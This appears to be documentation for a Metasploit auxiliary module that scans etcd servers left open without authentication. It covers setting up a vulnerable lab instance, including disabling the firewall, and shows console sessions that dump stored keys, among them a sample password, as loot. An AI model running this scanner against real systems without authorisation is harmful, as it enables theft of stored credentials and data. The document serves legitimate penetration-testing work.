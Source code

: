 ## Vulnerable Application

etcd is a distributed reliable key-value store, which when used in an open and default configuration gives
unauthenticated users access to the data stored via HTTP API.

### Centos 7.1

  1. `yum install etcd`
  2. `vi /etc/etcd/etcd.conf` replace (and uncomment) items with `localhost` for your IP.
  3. `systemctl start etcd; systemctl enable etcd`
  4. On Centos 7.1 you need to mod (or disable) the firewall: `systemctl stop firewalld`
  5. Lastly, lets add a key-value for interest: `curl http://[IP]:2379/v2/keys/supersecret -XPUT -d value="password!"`

### Docker

  1. `docker run -p 2379:2379 miguelgrinberg/easy-etcd`

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use auxiliary/scanner/etcd/open_key_scanner```
  4. Do: ```set rhosts [IPs]```
  5. Do: ```run```
  6. You should get a JSON response, and the data saved to `loot`.

## Scenarios

### etcd 3.2.15 on CentOS 7.1

```
msf5 > use auxiliary/scanner/etcd/open_key_scanner
msf5 auxiliary(scanner/etcd/open_key_scanner) > set rhosts 2.2.2.2
rhosts => 2.2.2.2
msf5 auxiliary(scanner/etcd/open_key_scanner) > run

[+] 2.2.2.2:2379
Version: {"etcdserver":"3.2.15","etcdcluster":"3.2.0"}
Data: {
  "action": "get",
  "node": {
    "dir": true,
    "nodes": [
      {
        "key": "/supersecret",
        "value": "password",
        "modifiedIndex": 6,
        "createdIndex": 6
      }
    ]
  }
}

Loot
====

host           service  type       name       content     info       path
----           -------  ----       ----       -------     ----       ----
2.2.2.2                 etcd.data  etcd.keys  text/plain  etcd keys  /root/.msf4/loot/20180325144351_default_2.2.2.2_etcd.data_425280.txt

msf5 auxiliary(scanner/etcd/open_key_scanner) > services
Services
========

host           port  proto  name  state  info
----           ----  -----  ----  -----  ----
2.2.2.2        2379  tcp    etcd  open   {"etcdserver":"3.2.15","etcdcluster":"3.2.0"}
```

### etcd in Docker

```
msf5 > use auxiliary/scanner/etcd/open_key_scanner
msf5 auxiliary(scanner/etcd/open_key_scanner) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf5 auxiliary(scanner/etcd/open_key_scanner) > run

[+] 127.0.0.1:2379
Version: {"etcdserver":"3.1.3","etcdcluster":"3.1.0"}
Data: {
  "action": "get",
  "node": {
    "dir": true
  }
}
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/etcd/open_key_scanner) > loot

Loot
====

host       service  type       name       content    info       path
----       -------  ----       ----       -------    ----       ----
127.0.0.1           etcd.data  etcd.keys  text/json  etcd keys  /root/.msf4/loot/20180328092245_default_127.0.0.1_etcd.data_260058.txt

msf5 auxiliary(scanner/etcd/open_key_scanner) > services
Services
========

host       port  proto  name  state  info
----       ----  -----  ----  -----  ----
127.0.0.1  2379  tcp    etcd  open   {"etcdserver":"3.1.3","etcdcluster":"3.1.0"}
```
